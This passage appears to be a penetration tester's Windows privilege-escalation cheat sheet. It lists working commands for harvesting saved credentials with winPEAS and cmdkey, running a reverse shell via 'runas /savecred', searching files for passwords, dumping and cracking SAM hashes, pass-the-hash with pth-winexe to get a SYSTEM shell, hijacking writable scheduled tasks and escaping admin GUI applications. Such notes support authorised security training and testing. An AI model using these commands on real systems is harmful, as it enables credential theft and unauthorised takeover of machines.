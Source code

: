### Saved Credentials

1. Use winPEAS to check for saved creds: `.\winPEASany.exe quiet cmd windowscreds`
2. Verify with: `cmdkey /list`
3. We can then use saved creds to run any command as the user: `runas /savecred /user:admin C:\temp\revshell.exe`

### Configuration Files

NOTE: Unattend.xml is a possible useful file!

Search for configuration files (containing the word pass or ending in .config): `dir /s *pass* == *.config`

Search for files containing the word password: `findstr /si password *.xml *.ini *.txt`

You can also find files like this with winPEAS: `.\winPEASany.exe quiet cmd searchfast filesinfo`

Any credentials found like this could then be abused with winexe: `winexe -U 'user%password' //the.targets.ip.here cmd.exe`

### SAM

SAM and SYSTEM file dumps. Check for baskcups in `C:\Windows\Repair` or `C:\Windows\System32\config\RegBack`

Dump password hashes with creddump, pwdump or samdump. Crack with john or hashcat.

### Pass-the-Hash

Instead of cracking the dumped hashes, you can pass the hash with pth-winexe:

`pth-winexe -U 'admin%HASH_HERE' //the.targets.ip.here cmd.exe`

You can also add `--system` with the admin hash to spawn a SYSTEM shell instead.

---

## Scheduled Tasks

To list all scheduled tasks you can see: `schtasks /query /fo LIST /v`
Powershell: `Get-ScheduledTask| where {$_.TaskPath-notlike"\Microsoft*"} | ft TaskName,TaskPath,State`

1. If you find a task with decent permissions, verify with accesschk: `.\accesschk.exe /accepteula -quvw user C:\Program Files\<path to program\program.exe`
2. If you can write to it, you can either replace it with a revshell, or if it's a script, append the path to our revshell to it.

---

## Insecure GUI Applications

Requires: A program with "run as admin" enabled. 

In the program: File -> Open -> `file://c:/windows/system32/cmd.exe`
